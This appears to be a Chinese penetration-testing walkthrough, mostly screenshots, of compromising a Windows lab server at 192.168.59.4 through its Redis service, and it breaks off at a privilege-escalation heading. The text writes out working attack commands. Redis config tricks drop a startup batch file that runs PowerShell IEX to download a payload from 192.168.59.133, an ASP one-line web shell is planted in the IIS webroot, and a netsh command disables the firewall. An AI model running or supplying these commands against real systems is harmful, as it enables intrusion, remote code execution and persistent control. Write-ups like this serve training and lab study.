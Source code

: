 ![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEEQJpf0Ze4p8VOunc5vH2KhCRdolJ4Kh1E7c4jcI7XQogkJGsYO6laoA/640?wx_fmt=png)

192.168.59.4 是存活的，我们着重看一下, 发现开了 80 和 6379。

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEErlO460ic8iaOzcmQXnicaibc9oLwH4CicpK8EnZLnsjC3S1fDB8yyXCdUEw/640?wx_fmt=png)

确定是一台 Windowsserver。

**Getshell**

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEE7bYGK9o6ln1NenjoUIhEUEIt9R1iaJRSeiacIQtoaciatnt1icVPpRYh6A/640?wx_fmt=png)

并不存在未授权访问的情况，尝试 msf 爆破:

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEE7icw4sdvbKC3fJYOaaoLSYMWYSjssySvDkCSZIOmlVIMRhAWcVmUicgQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEEe2Gc2tiaB11z4KteAeW56dClQa5NdKd7YAPwYqJyYKf6QN1RD1I9dyw/640?wx_fmt=png)

尝试 CS 上线：

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEEicyJ3LdS7Stiaq7HOJ9I0WvnZFVLHvKCMhj8MPnXXTViczarHQwxstkbg/640?wx_fmt=png)

192.168.59.4:6379> config set dir"C:/Users/Administrator/AppData/Roaming/Microsoft/Windows/StartMenu/Programs/startup/" OK 192.168.59.4:6379> config setdbfilename shell.bat OK 192.168.59.4:6379> set x"\r\n\r\npowershell.exe -nop -w hidden -c \"IEX((new-objectnet.webclient).downloadstring('http://192.168.59.133:8234/a'))\"\r\n\r\n"OK 192.168.59.4:6379> save OK

没有办法，弹不到 shell，尝试看看 iis 这边能有什么突破:

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEE0rGBJG1AWKibN8L22MA7lj8f6hE5GWRLmHNoiak7dzp9IcYXUtOTiaGaw/640?wx_fmt=png)

尝试了 n 久，终于…(忘了 iis 应该可以爆路径)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEE1Eu6tAwkHpD3nyfSynPn9cITibHicazCgGxGZRNCk3z0cLj81KAiaibVkQ/640?wx_fmt=png)

虽然 500，但是明显是可以解析的，好好写一个一句话就可以了。

192.168.59.4:6379> config set dirC:\inetpub\wwwroot OK 192.168.59.4:6379> config set dbfilenamea.asp OK 192.168.59.4:6379> set x "\r\n\r\n<%evalrequest(\"ra\")%>\r\n\r\n" OK 192.168.59.4:6379>save OK

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEEEiaVZJ7A4Lv0P8Iy12etBbKNiarPXibHGGBerao0CZ11hjqLn9la0IUVw/640?wx_fmt=png)

应该是不出网，权限非常小，找到 ALLUSER 目录可以写。

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEEnx0eWRG5ichtvzpOz6FKEZahvVtckewwmyP6XyZJ0ltJGYicIyt2GAsg/640?wx_fmt=png)

上传东西的时候设置分片小一点，最大超时时间大一点。在弹 shell 的时候发现没有上线，ping 了一下 DMZ 没通，估计是防火墙，所以关了 DMZ 的防火墙。

NetSh Advfirewall set allprofiles state off

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEEPTXM85ibt7FxggoU1ZpWLhWLwTb2PxQaYrEzJImOHWmj8Y3lbb1034g/640?wx_fmt=png)

上线成功。

**Privilege Escalation**
